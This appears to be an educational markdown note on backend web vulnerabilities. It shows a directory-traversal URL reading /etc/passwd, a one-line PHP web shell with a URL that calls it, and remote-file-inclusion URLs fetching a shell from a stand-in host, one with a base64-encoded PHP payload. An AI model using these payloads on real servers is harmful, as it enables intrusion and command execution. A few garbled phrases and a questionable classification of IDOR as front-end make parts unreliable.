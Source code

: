 ```markdown
# Backend Component Vulnerabilities

## Differentiate Between Front-End and Back-End Component Vulnerabilities

### Front-End Vulnerabilities

Front-end vulnerabilities are security issues that occur in the client-side components of a web application. These vulnerabilities can be exploited by manipulating the user interface or the data sent to the server.

- **Examples**:
  - Cross-Site Scripting (XSS)
  - Cross-Site Request Forgery (CSRF)
  - Insecure Direct Object References (IDOR)

### Back-End Vulnerabilities

Back-end vulnerabilities are security issues that occur in the server-side components of a web application. These vulnerabilities can be exploited by manipulating the server's logic, database, or file system.

- **Examples**:
  - SQL Injection
  - Directory Traversal
  - Remote File Inclusion (RFI)
  - Local File Inclusion (LFI)

## View Confidential Files with a Directory Traversal Attack by Using the Dot-Slash Method

Directory traversal attacks exploit vulnerabilities in a web application's file handling mechanisms to access files and directories outside the intended directory.

### Example

- **Vulnerable URL**:
  ```http
  http://example.com/view?file=report.txt
  ```

- **Malicious URL**:
  ```http
  http://example.com/view?file=../../../../etc/passwd
  ```

- **Explanation**: The Users sequence traverses up the directory structure to access the passwd file.

## Exploit a Web Application's File Upload Functionality to Conduct a Local File Inclusion Attack

Local File Inclusion (LFI) attacks exploit vulnerabilities in a web application's file handling mechanisms to include files from the local server.

### Example

- **Vulnerable File Upload**:
  ```html
  <form action="/upload" method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <button type="submit">Upload</button>
  </form>
  ```

- **Malicious File**: `shell.php`
  ```php
  <?php echo shell_exec($_GET['cmd']); ?>
  ```

- **Upload the Malicious File** and access it:
  ```http
  http://example.com/uploads/shell.php?cmd=ls
  ```

- **Explanation**: The uploaded PHP file allows the attacker to execute arbitrary commands on the server.

## Modify a Web Application's URL to Use a Malicious Remote Script to Conduct Three Different Remote File Inclusion Attacks

Remote File Inclusion (RFI) attacks exploit vulnerabilities in a web application's file handling mechanisms to include files from a remote server.

### Example 1: Basic FIR

- **Vulnerable URL**:
  ```http
  http://example.com/view?file=report.txt
  ```

- **Malicious URL**:
  ```http
  http://example.com/view?file=http://malicious.com/shell.txt
  ```

- **Explanation**: The remote file `shell.txt` is included and executed by the web application.

### Example 2: RFI with Query Parameters

- **Vulnerable URL**:
  ```http
  http://example.com/view?file=report.txt
  ```

- **Malicious URL**:
  ```http
  http://example.com/view?file=http://malicious.com/shell.txt?cmd=ls
  ```

- **Explanation**: The remote file `shell.txt` is included and executed with the query parameter `cmd=ls`.

### Example 3: RFI with Base64 Encoding

- **Vulnerable URL**:
  ```http
  http://example.com/view?file=report.txt
  ```

- **Malicious URL**:
  ```http
  http://example.com/view?file=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUW2NtZF0pOyA/Pg==
  ```

- **Explanation**: The Base64-encoded PHP code is included and executed by the web application.

By understanding and applying these techniques, you can identify and mitigate backend component vulnerabilities, ensuring the security and integrity of your web applications.

```